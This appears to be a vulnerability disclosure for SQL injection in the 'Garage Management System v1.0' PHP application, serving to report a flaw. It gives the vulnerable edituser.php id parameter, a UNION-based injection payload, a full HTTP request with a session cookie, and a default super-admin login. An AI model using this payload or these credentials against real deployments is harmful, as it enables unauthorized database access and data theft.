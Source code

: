 # Garage Management System v1.0 by mayuri_k has SQL injection

BUG_Author: HMHYHM

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /garage/edituser.php?id=

Vulnerability location: /garage/edituser.php?id=, id

dbname = garagedb

[+] Payload: /garage/edituser.php?id=-1'+union+select+1,database(),3,4--+ // Leak place ---> id

```sql
GET /garage/edituser.php?id=-1'+union+select+1,database(),3,4--+
HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180587934-7fc9983e-ff72-4b8c-a208-4e427f9e4ec3.png)
